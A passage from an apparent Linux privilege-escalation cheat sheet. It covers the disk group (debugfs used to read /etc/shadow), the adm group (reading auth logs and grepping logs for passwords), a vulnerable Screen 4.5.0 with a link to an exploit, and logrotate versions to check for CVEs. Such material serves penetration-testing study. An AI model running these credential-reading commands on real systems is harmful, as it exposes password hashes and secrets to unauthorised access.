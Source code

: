   ```bash
  # Check partitions:
  lsblk

  # Use debugfs (example for sda1):
  sudo debugfs /dev/sda1

  # Inside debugfs:
  ls /
  cat /etc/shadow
  ```

  ---
  <a id="9.4-adm"></a>
  ## **Adm**

  Being in this group, we have permission to read all logs inside **`/var/log`**

  ```bash
  # Read privileged logs:
  cat /var/log/auth.log
  cat /var/log/syslog

  # See cron jobs and executed commands:
  grep CRON /var/log/syslog
  grep -i password /var/log/*
  ```

---
<a id="10-others"></a>
# 10. **Others..**
  <a id="10.1-screen"></a>
  * **Screen** (`screen -v`)

    Screen version 4.5.0 → vulnerable.
    **`screen -v`**

    [https://github.com/YasserREED/screen-v4.5.0-priv-escalate](https://github.com/YasserREED/screen-v4.5.0-priv-escalate)

---
  <a id="10.2-logrotate"></a>
  * **Logrotate** (`logrotate --version`)

    Tool to manage log files on Linux.

    First we can look for CVEs:

    **`logrotate --version`**

    * 3.8.6
    * 3.11.0
    * 3.15.0
    * 3.18.0
